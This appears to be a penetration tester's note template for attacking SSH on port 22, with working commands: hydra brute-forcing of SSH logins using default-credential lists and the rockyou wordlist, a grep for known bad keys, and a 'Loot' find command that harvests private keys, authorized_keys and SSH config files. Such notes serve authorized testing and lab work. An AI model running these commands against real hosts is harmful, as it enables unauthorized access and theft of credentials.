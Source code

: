 #service # login
<% tp.file.rename("1_SSH_22")%>
☑️
#### Bad Keys
Get entries from targets `authorized_keys` file. Then:
```
auth_key="";grep -lr $auth_key /home/kali/Documents/SSHKeys/
```
#### Bruteforce default credentials
```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt ssh://$hip -V -t 4 -I -s 22
```
Or for a given user:
```bash
hydra -l $user -P /usr/share/wordlists/rockyou30.txt ssh://$hip -V -t 4 -I -s 22
```
(pass userlist with `-L /usr/share/wordlists/dirb/others/names.txt`)

> Tip: If SSH-Version of target is to low to connect to, try command „kali-tweaks“, select hardening, and toggle „SSH“.

# Loot
```bash
find / -name "ssh_config" -o -name "sshd_config" -o -name "authorized_keys" -o -name "ssh_known_hosts" -o -name ".shosts" -o -name "id_*"
```